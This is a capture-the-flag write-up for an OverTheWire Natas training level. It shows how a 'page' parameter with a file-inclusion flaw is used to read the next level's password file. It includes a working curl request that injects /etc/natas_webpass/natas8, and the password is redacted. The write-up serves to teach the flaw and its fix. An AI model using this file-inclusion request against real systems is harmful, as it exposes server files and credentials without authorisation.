


# Path Explorer

| Field | Details |
|---|---|
| Platform | OverTheWire Natas, mirrored by PCGCTF |
| Challenge ID | 14 |
| Technical category | Web Exploitation - Natas |
| Points in saved inventory | 100 |
| Difficulty | Not stated in the saved challenge description |
| Objective | Use a file-inclusion parameter to read the next level’s password file. |
| Result | Recovered next-level password — intentionally redacted in this publication draft. |

**Verified on OverTheWire** from the saved live-authentication record; PCGCTF acceptance remains unconfirmed.

## Reading the clues

Navigation uses a `page` parameter. A source hint names `/etc/natas_webpass/natas8`, which suggests testing whether the application constrains the parameter to legitimate page names. This is a file-reading flaw, not an SQL injection or a guessed URL under the web root.

## Working through the evidence

Commands below reproduce the recorded training procedure; the screenshot pass independently replayed the level-specific method and next-level authentication. `curl --user natasN` prompts for the current level password rather than putting it in shell history. `-sS` hides the progress meter while retaining errors. The output excerpts are redacted from the saved investigation; the redaction is not part of the server response.

### 1. Relate the parameter to the file hint

The normal navigation loads named pages such as `?page=home`. The saved HTML hint states where the next credential is stored. That exact local path matters: an HTTP path and a filesystem path are not interchangeable.

### 2. Request the password file through the vulnerable include

```sh
curl -sS --user natas7 'http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8'
```

The quotes keep the complete query string together in the shell. Supplying an absolute path causes the vulnerable include to read that file using the web application's filesystem permissions. No traversal sequence is required in the recorded working request.

The saved response includes the credential followed by the original hint:

```html
[REDACTED_LEVEL_PASSWORD]
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

### 3. Verify what was read

The saved authentication request to the next `natas8` host returned **200**. This is an important cross-check: reading some file would not be enough unless its contents were actually the next account's credential.

## Captured screenshots and evidence

Captured on 2026-10-29 from actual terminal sessions or browser views. Captions distinguish new results, preserved records, source images and blockers. No platform acceptance is inferred from these images.

### Challenge #14 — actual evidence capture



Actual authenticated request to the named authorized Natas training level; passwords redacted before terminal display.

Command/action actually executed:

```sh
python /home/nightingale/CTF/PCGCTF/final-writeups/screenshots/capture-work/natas_evidence.py 14 method
```

[Actual command transcript](../screenshots/capture-work/014-natas-method.terminal.log) · [Execution record](../screenshots/capture-work/014-natas-method.result.json). Notice the result fields discussed in the corresponding solution step; the transcript retains lines that extend beyond the screenshot viewport.

### Challenge #14 — actual evidence capture



Actual authenticated request to the named authorized Natas training level; passwords redacted before terminal display.

Command/action actually executed:

```sh
python /home/nightingale/CTF/PCGCTF/final-writeups/screenshots/capture-work/natas_evidence.py 14 verify
```

[Actual command transcript](../screenshots/capture-work/014-natas-verify.terminal.log) · [Execution record](../screenshots/capture-work/014-natas-verify.result.json). Notice the result fields discussed in the corresponding solution step; the transcript retains lines that extend beyond the screenshot viewport.

## Flag discovery and final verification

The saved verification at **2026-10-28T22:37:26+08:00** authenticated to **natas8** at `http://natas8.natas.labs.overthewire.org/` and returned **HTTP 200**. Its response SHA-256 is `285b79e8b82285fc3e0441cd78ad16edcb5b6b321e52dee13dcfd672b098a39c`. This is a recorded independent OverTheWire check, the earlier authentication record; the screenshot pass also made a fresh successful authentication, documented below.

The demonstration uses the level-specific host and username. Keep the recovered password in a private working copy; the PCGCTF candidate wraps that exact recovered value as `pcgCTF{<RECOVERED_NEXT_LEVEL_PASSWORD>}`. Neither that wrapper nor the PCGCTF solved state was independently confirmed. Redact the password from any browser or terminal capture before publishing it.

## What this challenge taught me

Unrestricted server-side file inclusion exposes files the application can read, even when they lie outside the web root. An allowlist of page identifiers is stronger than concatenating an arbitrary user path.

## Evidence and references

[Original archived challenge](../../unsolved/web-exploitation-natas/014-path-explorer/README.md)

- [Sanitized live verification ledger](../evidence/ready-natas/natas-verification-redacted.json)

**Provenance:** Rewritten from saved level-specific investigation and the 2026-10-28 live-authentication ledger. The screenshot pass independently repeated the intended level-specific requests and authentication; runtime passwords were redacted before terminal display and logging.
